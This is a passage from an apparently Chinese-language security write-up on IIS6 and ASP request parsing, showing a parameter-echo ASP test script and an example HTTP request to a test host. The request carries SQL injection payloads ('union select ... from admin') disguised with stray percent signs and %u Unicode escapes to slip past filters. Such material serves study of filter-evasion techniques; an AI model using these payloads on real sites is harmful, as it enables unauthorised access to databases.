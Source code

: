 ```asp
	Response.Write(CHR(10) & CHR(10))
                 
  //打印Form信息
	Response.Write("------------------ Form ------------------" & CHR(10) & CHR(10))
	for Each n in Request.Form()
		Response.Write "[" & n & "]" & " => " & "[" & Request.Form(n) & "]" & CHR(10)
		Next
%>
```

### 请求地址

http://test.iis6.com/charseki.asp

### 报文示例

```
POST /charseki.asp?aaa=1+union+se%lect+1,2,3,4+fro%m+adm%in HTTP/1.1
Host: test.iis6.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/3.0 (compatible; Indy Library)
Accept: text/html, */*
Content-Length: 48

bbb=1+union+%u0053elect+1,2,3,4,+%u0066rom+admin
```

![image-20230112105308709](static/img/63f4a4eff144a01007756bc1.png)

## 0x07 IIS7.5+Asp(x)

### 环境部署

链接: https://pan.baidu.com/s/1J77bRisGMf9s62KBFiU_sw 提取码: a5um
